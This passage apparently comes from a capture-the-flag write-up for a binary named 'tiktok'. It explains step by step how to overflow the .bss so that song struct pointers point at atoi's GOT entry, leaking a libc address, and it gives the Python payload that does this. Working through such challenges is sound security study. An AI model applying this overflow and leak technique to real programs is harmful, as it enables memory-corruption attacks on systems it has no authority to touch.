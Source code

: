 Recall also that when `list_playlist()` is called, the program prints out the strings (using `printf`) that are pointed to by the `song->albumptr` and `song->songptr`. We can overwrite these pointers to point to `atoi()` in the GOT table to get a libc leak! Finding the GOT location for `atoi()` can be done by running `objdump -d tiktok` utility, and looking at the .plt entry for `atoi()`, where the .plt entry is what a dynamically-linked program calls to jump to the libc address of the libc function.

![](https://i.imgur.com/1YMEaRy.png)

Looks like the global offset table entry for `atoi` is at 0x403fd0!

We'll first begin the payload to clobber the .bss with the following:

```python
atoi_got = p64(0x403fd0)
clobber = p64(0x0) #Set song 4's filedesc to 0
```

We can then write the `song->albumptr` and `song->songptr` pointers to point to the GOT entry of `atoi`. After that we can write null values for the next 40 (or 0x28) bytes, which should cover song 4's `song->songcontentptr` which is 0x8 bytes long, song 5's `song->filename` region which is 0x18 bytes long, and song 5's `song->filedesc` region, which is 0x8 bytes long:

```python=
clobber += atoi_got
clobber += atoi_got
clobber += "\x00"*(5*8)
```

Now, remember we need to do this for 767 bytes. However, since now we're back at the next song's `song->albumptr` region, we can loop this process. First, we need to know how much to loop. We can calculate this by computing `(767 - 8) / 56` rounded down, where the 8 is to account for the initial `clobber = p64(0x0)`, and the 56 is the size of the song struct. That expression is equal to 13, so we can loop through this 13 times:

```python=
for i in range(0, 13):
        clobber += atoi_got
        clobber += atoi_got
        clobber += "\x00"*(5*8)
```

There's still some leftover pieces of memory though, as 56 doesn't divide evenly to `767 - 8`. Therefore, we still need to fill `767 - 8 - (56 * 13)`or 31 bytes, which is enough to fill the next song's `song->albumptr` pointer, `song->songptr` pointer, and `31 - 16` amount of null bytes.

Our final payload to clobber the .bss is the following:

```python
atoi_got = p64(0x403fd0)
clobber = p64(0x0) #Set song 4's filedesc to 0
#Gonna clobber the .bss with an allocation. First need to generate the payload
for i in range(0, 13):
        clobber += atoi_got
        clobber += atoi_got
        clobber += "\x00"*(5*8)
        
#Fix up the end to not corrupt any pointers
clobber += atoi_got
clobber += atoi_got
clobber += "\x00"*(31-16)
play_overflow("1", "767", clobber) #Song num 4-17's song->filedesc is set to 0, and their song album pointer points to atoi, which has atoi libc address
```
